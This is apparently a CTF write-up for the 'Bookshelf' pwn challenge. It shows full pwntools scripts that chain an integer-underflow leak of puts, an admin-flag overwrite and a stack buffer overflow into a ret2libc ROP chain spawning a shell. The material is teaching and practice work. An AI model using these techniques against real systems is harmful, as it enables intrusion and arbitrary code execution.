

# Bookshelf

This pwn challenge involved the use of [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) to call `system` and spawn a shell.

## Description

> Just finished up my project based around books! Hope you enjoy reading...

You can download the binary [here](bookshelf) and the corresponding libc [here](libc.so.6).

---

## Part I: Getting the address of puts

When we connect to the server, we see that there are multiple options to choose from. Lets take a look at option 2.




It seem like we are given `$500` to start, and we somehow have to pull `$99999499` out of thin air so that we can get the address of `puts`. This sounds like a integer underflow vulnerability, so lets get hacking.

When we select the book that we want to read, the program would check if we have enough cash, and reply accordingly. However, it would then ask for a tip, **without** checking if you have enough cash to tip.


Hence, we can keep leaving the program a tip till our cash underflows!


Now we can successfully leak the address of `puts` 😄


Take note of the address as it will come in handy later.

## Part II: Admin Access

There seems to be a function which only admins can access. Lets take a look at it's decompilation.


Ignoring all the fancy stuff, we see that we are granted admin permissions if `arg1` is not `0`. So how can we do this?

After playing around with the inputs, I found out that choosing option `1` and writing exactly `40` characters would allow us to overflow into `arg1` and modify it's value to be `65`, which corresponds to `\n`, which is non-zero. I can't pinpoint the exact lines of code that is causing this behaviour, so it would be nice if any kind soul explained it to us at [hello@404unfound.com](mailto://hello@404unfound.com) 😄

## Part III: Buffer Overflowing Admin

The function `adminBook` allows us to input some `book_content`. Upon looking at the disassembly, we can see that `book_content` is only allocated `48` bytes, but `fgets` reads `256` bytes in! This screams a buffer overflow to me.


Lets try dumping a lot of characters inside. As I'm too lazy to do the integer underflow everytime I reopened the program, I wrote a `pwntools` script to automate it for me. It's really messy by the way.

```py
from pwn import *

HOST = "chal.pctf.competitivecyber.club"
PORT = 4444

elf = context.binary = ELF("bookshelf")
libc = ELF("libc.so.6")

DEBUG = len(sys.argv) == 1

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

# Underflow cash to get address of puts()
it = 0
while True:
    res = p.recvuntil(b"4) Check out")
    p.sendline(b"2")
    res = p.recvuntil(b">>")
    p.sendline(b"2")

    res = p.recvuntil(b">>")
    p.sendline(b"y")
    res = p.recvuntil(b">>")
    if b"You don't have enough cash!" not in res and it > 2:
        p.recvuntil(b"4) Check out")
        break

    it += 1

# Get the address of puts()
p.sendline(b"2")
res = p.recvuntil(b">>")
p.sendline(b"3")
res = p.recvuntil(b"glory")

puts_addr = p.recvn(15).strip()
p.sendline(b"n")
p.recvuntil(b"4) Check out")

# Write 40 characters to writebook function
p.sendline(b"1")
p.recvuntil(b"!")
p.sendline(b"y")
p.sendline(b"A" * 40)

p.recvuntil(b"out")
p.recvuntil(b"out")

# Go into admin function
p.sendline(b"3")
p.recvuntil(b"...")

# Attach GDB for debugging
if DEBUG:
    context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(p)

# Spawn interactive session
p.interactive()
```

But now that we have access to admin, lets create the long payload in GDB and send it!


## Part IV: Controlling RET

In the disassembly of `adminBook`, we see that right after `puts` it calls `leave` followed by `ret`. If you're interested, you can read up on it [here](https://chat.openai.com/share/61263924-f38d-4779-964e-d11717790fc6). `leave` and `ret` assume that you have a valid stack that has not been tampered with.


However, since we have a buffer overflow, the stack isn't valid anymore, and we can control `ret` to return to a malicious instruction instead. The illustration below shows how our overflowed input can be used to control the return address.


As the number of bytes between the start of the user input and overwriting the return address is fixed, we can create a cyclic pattern in GDB to calculate the number of bytes, aka the offset.


After putting the pattern in and stepping until the `ret` instruction, we see that the value which `rsp` points to is part of our input! `ret` would pop this value off the stack and `jmp` to the corresponding address, thus we can simply write our own address that we want to jump to.


We can calculate the offset simply by putting the command: `pattern search {pattern in RSP}`


And viola, we got the offset of `56`!

## Part V: Calculating the address of system

Since there is no function within the program that allows us to view the flag, we have to somehow spawn a shell and read the flag. Thankfully, we have the `system` function in `libc` that can help us do this. It is achieved by calling `system("/bin/sh")`.

Let's once again employ the help of `pwntools` to do this.

```py
# Calculate the base address of libc by calculating the
# difference between the program's puts and libc's puts
libc.address = int(puts_addr.decode(), 0)  - libc.symbols.puts

# Craft our payload
payload = flat([
    "\x00" * 56,  # Remember, we calculated our offset to be 56
    p64(libc.symbols.system)
])

# Send payload and allow us to interact with the program
p.sendline()
p.interactive()
```

If we debug the program once more, we see that our stack pointer now points at `system`, which will be popped into `RIP` to be executed.


## Part VI: Crafting an ROP Chain

Now we can call `system`, but how do we supply the argument `/bin/sh` to it? Well, first we need to somehow load the string `/bin/sh` into `RDI`, as specified by the section A.2 AMD64 Linux Kernel Conventions in [System V Application Binary Interface](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)

> User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9.

We can load the string by finding an instruction address that does `pop rdi; ret`, and put the string `/bin/sh` into the stack right after the instruction. `pwntools` has a built-in way for us to do this, so lets try it!

```py
# Initialise the ROP class on libc
rop = ROP(libc)

# Craft payload with arguments
payload = flat([
    "\x00" * 56,
    p64(rop.rdi.address),   # Get addresses which contain pop rdi; ret
    p64(next(libc.search(b"/bin/sh\x00"))),  # Look for a address containing /bin/sh
    p64(rop.rdi.address + 1),  # This is needed to align the bytes to prevent a segfault (https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call)
    p64(libc.symbols.system)
])

# Send payload and allow us to interact with the program
p.sendline(payload)
p.interactive()
```

Aaaaand we got a shell 🥳 (I could only do this locally as they shut the servers down when I was doing this writeup)


Flag: `PCTF{r3t_2_libc_pl0x_52706196}`

Final script:

```py
# Step 1: Write 40 characters to the write book func so that we gain admin
# Step 2: Underflow your cash to get address of puts()
# Step 3: Use leaked puts() to call system("/bin/sh")

# Notes
# Offset 56 from admin input to. RSP

from pwn import *

HOST = "chal.pctf.competitivecyber.club"
PORT = 4444

elf = context.binary = ELF("bookshelf")
libc = ELF("libc.so.6")

DEBUG = len(sys.argv) == 1

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

offset = 56

# Underflow cash to get address of puts()
it = 0
while True:
    res = p.recvuntil(b"4) Check out")
    p.sendline(b"2")
    res = p.recvuntil(b">>")
    p.sendline(b"2")

    res = p.recvuntil(b">>")
    p.sendline(b"y")
    res = p.recvuntil(b">>")
    if b"You don't have enough cash!" not in res and it > 2:
        p.recvuntil(b"4) Check out")
        break

    it += 1

# Get the address of puts()
p.sendline(b"2")
res = p.recvuntil(b">>")
p.sendline(b"3")
res = p.recvuntil(b"glory")

puts_addr = p.recvn(15).strip()
p.sendline(b"n")
p.recvuntil(b"4) Check out")

# Write 40 characters to writebook function
p.sendline(b"1")
p.recvuntil(b"!")
p.sendline(b"y")
p.sendline(b"A" * 40)

p.recvuntil(b"out")
p.recvuntil(b"out")

# Go into admin function
p.sendline(b"3")
p.recvuntil(b"...")

if DEBUG:
    context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(p)

# Craft payload
print(puts_addr.decode())
libc.address = int(puts_addr.decode(), 0)  - libc.symbols.puts

rop = ROP(libc)

payload = flat([
    "\x00" * offset,
    p64(rop.rdi.address),
    p64(next(libc.search(b"/bin/sh\x00"))),
    p64(rop.rdi.address + 1),
    p64(libc.symbols.system),
])

print(payload)

p.sendline(payload)
p.interactive()
```
